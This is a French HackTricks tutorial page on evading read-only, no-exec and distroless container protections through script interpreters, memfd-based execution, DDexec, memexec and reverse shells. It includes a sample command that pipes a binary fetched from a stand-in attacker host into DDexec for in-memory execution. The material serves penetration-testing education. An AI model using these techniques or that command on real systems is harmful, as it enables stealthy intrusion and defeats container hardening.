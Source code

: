 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR au** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière de hacking** et par le fait de hacker l'inhackable - **nous recrutons !** (_polonais courant écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Vidéos

Dans les vidéos suivantes, vous pouvez trouver les techniques mentionnées sur cette page expliquées plus en profondeur :

* [**DEF CON 31 - Explorer la manipulation de la mémoire Linux pour la furtivité et l'évasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusions furtives avec DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## scénario read-only / no-exec

Il est de plus en plus courant de trouver des machines linux montées avec une **protection du système de fichiers en lecture seule (ro)**, en particulier dans les conteneurs. Cela est dû au fait qu'exécuter un conteneur avec un système de fichiers ro est aussi simple que de définir **`readOnlyRootFilesystem: true`** dans le `securitycontext` :

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Cependant, même si le système de fichiers est monté en tant que ro, **`/dev/shm`** sera toujours inscriptible, donc c'est faux de dire que nous ne pouvons rien écrire sur le disque. Cependant, ce dossier sera **monté avec une protection no-exec**, donc si vous téléchargez un binaire ici, vous **ne pourrez pas l'exécuter**.

{% hint style="warning" %}
D'un point de vue red team, cela rend **compliqué de télécharger et d'exécuter** des binaires qui ne sont pas déjà dans le système (comme des portes dérobées ou des énumérateurs comme `kubectl`).
{% endhint %}

## Contournement le plus simple : Scripts

Notez que j'ai mentionné des binaires, vous pouvez **exécuter n'importe quel script** tant que l'interpréteur est présent dans la machine, comme un **script shell** si `sh` est présent ou un **script python** si `python` est installé.

Cependant, cela ne suffit pas pour exécuter votre porte dérobée binaire ou d'autres outils binaires que vous pourriez avoir besoin d'exécuter.

## Contournements en mémoire

Si vous souhaitez exécuter un binaire mais que le système de fichiers ne le permet pas, le meilleur moyen de le faire est de **l'exécuter depuis la mémoire**, car les **protections ne s'appliquent pas là**.

### Contournement FD + syscall exec

Si vous avez des moteurs de script puissants dans la machine, tels que **Python**, **Perl** ou **Ruby**, vous pourriez télécharger le binaire à exécuter depuis la mémoire, le stocker dans un descripteur de fichier mémoire (`create_memfd` syscall), qui ne sera pas protégé par ces protections, puis appeler un **syscall `exec`** en indiquant le **fd comme fichier à exécuter**.

Pour cela, vous pouvez facilement utiliser le projet [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Vous pouvez lui passer un binaire et il générera un script dans le langage indiqué avec le **binaire compressé et b64 encodé** avec les instructions pour **le décoder et le décompresser** dans un **fd** créé en appelant le syscall `create_memfd` et un appel au **syscall exec** pour l'exécuter.

{% hint style="warning" %}
Cela ne fonctionne pas dans d'autres langages de script comme PHP ou Node car ils n'ont pas de **méthode par défaut pour appeler des syscalls bruts** depuis un script, donc il n'est pas possible d'appeler `create_memfd` pour créer le **fd mémoire** pour stocker le binaire.

De plus, créer un **fd régulier** avec un fichier dans `/dev/shm` ne fonctionnera pas, car vous ne serez pas autorisé à l'exécuter en raison de l'application de la **protection no-exec**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) est une technique qui vous permet de **modifier la mémoire de votre propre processus** en écrasant son **`/proc/self/mem`**.

Ainsi, **en contrôlant le code assembleur** qui est exécuté par le processus, vous pouvez écrire un **shellcode** et "muter" le processus pour **exécuter n'importe quel code arbitraire**.

{% hint style="success" %}
**DDexec / EverythingExec** vous permettra de charger et **d'exécuter** votre propre **shellcode** ou **n'importe quel binaire** depuis **la mémoire**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Pour plus d'informations sur cette technique, consultez le Github ou :

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) est la prochaine étape naturelle de DDexec. C'est un **DDexec shellcode démonisé**, donc chaque fois que vous souhaitez **exécuter un binaire différent**, vous n'avez pas besoin de relancer DDexec, vous pouvez simplement exécuter le shellcode memexec via la technique DDexec et ensuite **communiquer avec ce démon pour passer de nouveaux binaires à charger et exécuter**.

Vous pouvez trouver un exemple sur comment utiliser **memexec pour exécuter des binaires depuis un shell PHP inversé** dans [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Avec un objectif similaire à DDexec, la technique [**memdlopen**](https://github.com/arget13/memdlopen) permet une **manière plus facile de charger des binaires** en mémoire pour les exécuter plus tard. Cela pourrait même permettre de charger des binaires avec des dépendances.

## Bypass Distroless

### Qu'est-ce que distroless

Les conteneurs distroless contiennent uniquement les **composants minimaux nécessaires pour exécuter une application ou un service spécifique**, tels que des bibliothèques et des dépendances d'exécution, mais excluent des composants plus volumineux comme un gestionnaire de paquets, un shell ou des utilitaires système.

L'objectif des conteneurs distroless est de **réduire la surface d'attaque des conteneurs en éliminant les composants inutiles** et en minimisant le nombre de vulnérabilités pouvant être exploitées.

### Reverse Shell

Dans un conteneur distroless, vous pourriez **même ne pas trouver `sh` ou `bash`** pour obtenir un shell régulier. Vous ne trouverez également pas de binaires tels que `ls`, `whoami`, `id`... tout ce que vous exécutez habituellement dans un système.

{% hint style="warning" %}
Par conséquent, vous **ne pourrez pas** obtenir un **reverse shell** ou **énumérer** le système comme vous le faites habituellement.
{% endhint %}

Cependant, si le conteneur compromis exécute par exemple un web flask, alors python est installé, et donc vous pouvez obtenir un **reverse shell Python**. S'il exécute node, vous pouvez obtenir un shell rev Node, et c'est la même chose avec presque n'importe quel **langage de script**.

{% hint style="success" %}
En utilisant le langage de script, vous pourriez **énumérer le système** en utilisant les capacités du langage.
{% endhint %}

S'il n'y a **pas de protections `read-only/no-exec`**, vous pourriez abuser de votre reverse shell pour **écrire dans le système de fichiers vos binaires** et **les exécuter**.

{% hint style="success" %}
Cependant, dans ce type de conteneurs, ces protections existeront généralement, mais vous pourriez utiliser les **techniques d'exécution en mémoire précédentes pour les contourner**.
{% endhint %}

Vous pouvez trouver des **exemples** sur comment **exploiter certaines vulnérabilités RCE** pour obtenir des **reverse shells** de langages de script et exécuter des binaires depuis la mémoire dans [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière en hacking** et par le fait de hacker l'inhackable - **nous recrutons !** (_polonais courant écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR au** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
